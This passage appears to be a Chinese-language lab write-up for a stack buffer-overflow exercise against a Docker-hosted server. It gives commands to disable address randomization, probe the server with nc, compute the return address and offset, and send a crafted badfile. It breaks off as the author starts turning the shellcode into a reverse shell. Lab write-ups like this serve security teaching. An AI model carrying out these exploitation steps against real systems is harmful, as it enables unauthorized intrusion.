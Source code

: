 首先关闭 address randomization countermeasure

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

进入 server-code 文件夹下，执行命令

```bash
$ make
$ make install
```

然后返回其根目录，执行命令启动 docker

```bash
$ dcbuild
$ dcup
```

进入 attack-code 文件夹，执行

```bash
$ echo hello | nc 10.9.0.5 9090
^C
```

server 显示

<img src="https://i.loli.net/2021/07/10/IfH5Ra8q2jFXxQC.png" alt="image-20210710215643858" style="zoom:50%;" />

我们修改 exploit.py

<img src="https://i.loli.net/2021/07/10/DqTwEHIFm3vZNae.png" alt="image-20210710230024976" style="zoom:50%;" />

其中，

- shellcode 即为刚刚 shellcode_32.py 中的 shellcode
- $\text{ret}=\text{ebp}+n$
  - ebp 就是刚刚 `echo hello` 中得到的 ebp，因为关闭了地址随机化，所以每次都一样
  - $n$ 只要大于等于 $8$ 都可以
- $\text{offset}=$`0xffffd438`$-$`0xffffd3c8`+4

然后执行

```bash
$ ./exploit.py
$ cat badfile | nc 10.9.0.5 9090
```

得到了结果

<img src="https://i.loli.net/2021/07/10/aPJqsFSwKoLlATy.png" alt="image-20210710231454913" style="zoom:50%;" />

> **Reverse shell.** Please modify the command string in your shellcode, so you can get a reverse shell on the target
> server. Please include screenshots and explanation in your lab report.

根据 Task 要求，我们将 shellcode 改为 reverse shell，即第 10 行改为
